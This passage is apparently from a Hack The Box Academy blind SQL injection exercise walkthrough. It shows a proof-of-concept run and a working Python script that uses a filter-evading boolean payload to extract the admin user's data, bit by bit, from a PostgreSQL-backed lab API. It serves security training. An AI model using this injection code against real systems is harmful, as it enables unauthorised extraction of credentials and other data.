After running the script, students will attain `True`:

Code: shell

```shell
python3 poc.py
```

```
┌─[us-academy-1]─[10.10.14.86]─[htb-ac-413848@htb-atfp6z2ncm]─[~]
└──╼ [★]$ python3 poc.py

True
```

Using the same SQL-Anding technique taught in the `Optimizing` section of the `Blind SQL Injection` module, students need to slightly modify it to work with PostgreSQL's syntax to be able to exfiltrate data blindly:

Code: python

```python
#!/usr/bin/env python3

import requests, json, sys
from urllib.parse import quote_plus

def oracle(query):
    existingUser = "admin"
    whitespace = "/*-*/"
    baseURL = f"http://STMIP:8080/api/v1/check-user?u={existingUser}"
    SQLiPayload = f''''{whitespace}And{whitespace}({query.replace(" ", whitespace)})--{whitespace}-'''
    response = requests.get(baseURL + quote_plus(SQLiPayload))
    jsonResponse = json.loads(response.text)
    return jsonResponse["exists"] == True

def dumpNumber(fieldToDump):
    length = 0
    for p in range(0, 7):
        if oracle(f"(Select Length({fieldToDump}) From users Where username = 'admin') & {2**p} > 0"):
            length |= 2**p
    return length

def dumpString(fieldToDump, length):
    string = ""
    for i in range(1, length + 1):
        character = 0
        for p in range (0, 7):
            if oracle(f"(Select Ascii(Substring({fieldToDump},{i},1)) From users Where username = 'admin') & {2**p} > 0"):
                character |= 2**p
        string += chr(character)
    return string
```
